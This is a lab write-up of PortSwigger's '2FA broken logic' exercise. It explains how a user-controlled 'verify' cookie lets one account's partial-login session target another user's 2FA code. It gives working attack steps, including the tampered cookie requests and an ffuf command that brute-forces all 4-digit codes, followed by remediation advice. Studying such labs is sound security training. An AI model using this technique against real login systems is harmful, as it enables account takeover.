




# Lab: 2FA Broken Logic

> **Platform:** PortSwigger Web Security Academy  
> **Module:** Authentication vulnerabilities  
> **Lab:** 2FA broken logic  
> **Lab link:**  
> https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-multi-factor-authentication/authentication/multi-factor/lab-2fa-broken-logic

---

## 1. Lab Goal

The goal of this lab was to bypass the 2FA protection and access the victim user's account.

Given credentials:

```text
wiener:peter
```

Victim user:

```text
carlos
```

We do not know Carlos's password, but because the 2FA logic is broken, we do not need it.

---

## 2. Vulnerability Summary

The application uses a browser-controlled cookie called `verify` to decide which user's 2FA code should be checked.

This is insecure because the server is trusting a value that the user can modify.

Instead of tying the 2FA verification to the authenticated user in the server-side session, the application checks the user mentioned in the `verify` cookie.

So the main issue is:

```text
session = proves that someone passed the password step
verify  = decides whose 2FA code is being checked
```

Because the `verify` cookie can be changed, we can log in with our own account, change the cookie from `wiener` to `carlos`, and then brute-force Carlos's 2FA code.

---

## 3. Login Flow

The login process works like this:

```text
/login  ->  /login2  ->  /my-account
```

Going directly to `/my-account` does not work.

Going directly to `/login2` also does not bypass the login process unless we already have a valid partial-login session.

So first, we need to log in with our own valid credentials:

```text
wiener:peter
```

After logging in, the server gives us cookies like this:

```http
Set-Cookie: session=<partial-login-session>
Set-Cookie: verify=wiener
```

The important part is that the application stores the user being verified inside the `verify` cookie.

---

## 4. Important Observation

After logging in as `wiener`, the request to `/login2` uses cookies like this:

```http
Cookie: session=<wiener-partial-session>; verify=wiener
```

The `session` cookie proves that we passed the username and password step.

The `verify` cookie tells the server whose 2FA code should be checked.

This is where the broken logic appears.

If we change:

```http
verify=wiener
```

to:

```http
verify=carlos
```

the application accepts this mismatched state:

```http
Cookie: session=<wiener-partial-session>; verify=carlos
```

This should not be allowed because the session belongs to `wiener`, but the 2FA verification is now being attempted for `carlos`.

A secure application should reject this immediately.





---

## 5. Exploitation Steps

### Step 1: Log in as Wiener

First, I logged in using the given credentials:

```text
wiener:peter
```

This gives me a valid partial-login session and takes me to the 2FA page.

At this point, I have not fully logged in yet, but I have passed the username and password step.

---

### Step 2: Change the `verify` Cookie

Now I changed the cookie value from:

```http
verify=wiener
```

to:

```http
verify=carlos
```

Then I reloaded `/login2`.

The request now looked like this:

```http
GET /login2 HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<wiener-partial-session>; verify=carlos
```

Now the application is in a broken state.

The session belongs to `wiener`, but the server is checking the 2FA code for `carlos`.

---

### Step 3: Test With a Random Code

To confirm the behavior, I submitted a random 4-digit code:

```text
0000
```

The application responded with:

```text
Incorrect security code.
```

This confirms that the server accepted the request and is checking a 2FA code for the user specified in the `verify` cookie.

Since the cookie is now:

```http
verify=carlos
```

we can brute-force Carlos's 2FA code.

---

## 6. Brute Forcing the 2FA Code

The 2FA code is 4 digits, so the possible range is:

```text
0000-9999
```

A normal Bash loop with `curl` would also work, but it would be slower because it sends requests one by one.

So I used `ffuf` because it can send multiple requests in parallel.

First, I created a wordlist of all 4-digit codes:

```bash
seq -w 0000 9999 > codes.txt
```

Then I ran `ffuf`:

```bash
ffuf -w codes.txt \
  -u 'https://LAB-ID.web-security-academy.net/login2' \
  -X POST \
  -H 'Cookie: session=<wiener-partial-session>; verify=carlos' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'mfa-code=FUZZ' \
  -fr 'Incorrect security code.' \
  -t 20
```

### Command Breakdown

```text
-w codes.txt
```

Uses the generated 4-digit code list.

```text
-u
```

Specifies the target `/login2` endpoint.

```text
-X POST
```

Sends POST requests.

```text
-H 'Cookie: session=<wiener-partial-session>; verify=carlos'
```

Sends the valid partial-login session with the modified `verify` cookie.

```text
-d 'mfa-code=FUZZ'
```

Replaces `FUZZ` with each code from the wordlist.

```text
-fr 'Incorrect security code.'
```

Filters out failed responses that contain `Incorrect security code.`

```text
-t 20
```

Uses 20 parallel threads to speed up the brute-force process.



---

## 7. Getting Access to Carlos's Account

When `ffuf` finds a response that does not contain:

```text
Incorrect security code.
```

that response is likely the valid 2FA code.

After getting the correct code, I entered it in the 2FA form.

This completed the login process and gave me access to Carlos's account.



---

## 8. Why This Works

This works because the application separates the login state and the 2FA target into two different values.

The session proves that a user passed the password step:

```text
session = wiener partial login
```

But the 2FA target is controlled by a cookie:

```text
verify = carlos
```

The server should check whether both values belong to the same user.

Instead, it accepts this invalid combination:

```text
session = wiener
verify  = carlos
```

Because of this, we can use our own valid session to brute-force the 2FA code of another user.

---

## 9. Remediation / Fix

The application should not trust the `verify` cookie to decide which user's 2FA code should be checked.

The 2FA verification should be tied to the authenticated user stored in the server-side session.

A secure flow should work like this:

```text
User logs in with username/password
Server stores pending 2FA user in the server-side session
2FA code is checked only for that same session user
```

The server should reject any request where the 2FA target does not match the authenticated session user.

The application should also have brute-force protection on the 2FA code, such as:

```text
Rate limiting
Temporary lockout after repeated wrong codes
Expiring 2FA codes quickly
Invalidating old 2FA codes after new ones are generated
Monitoring repeated failed 2FA attempts
```

---

## 10. Lessons Learned

- 2FA should be tied to the server-side session, not to a user-controlled cookie.
- A partial-login session should only verify the same user who passed the password step.
- Client-side values like cookies can be modified, so they should not be trusted for security decisions.
- Even 4-digit OTPs can be dangerous if there is no rate limiting.
- Testing authentication flow step by step helps reveal broken state logic.

---

## 11. Final Summary

This lab demonstrated a broken 2FA logic vulnerability.

After logging in with the valid account `wiener:peter`, the application gave a partial-login session and a `verify=wiener` cookie. The issue was that the server trusted the `verify` cookie to decide whose 2FA code should be checked.

By changing the cookie to `verify=carlos`, I was able to use my own partial-login session to brute-force Carlos's 2FA code. Once the correct code was found, I completed the login process and accessed Carlos's account.

The main fix is to store the 2FA user server-side and ensure that the session user and the 2FA verification user always match.
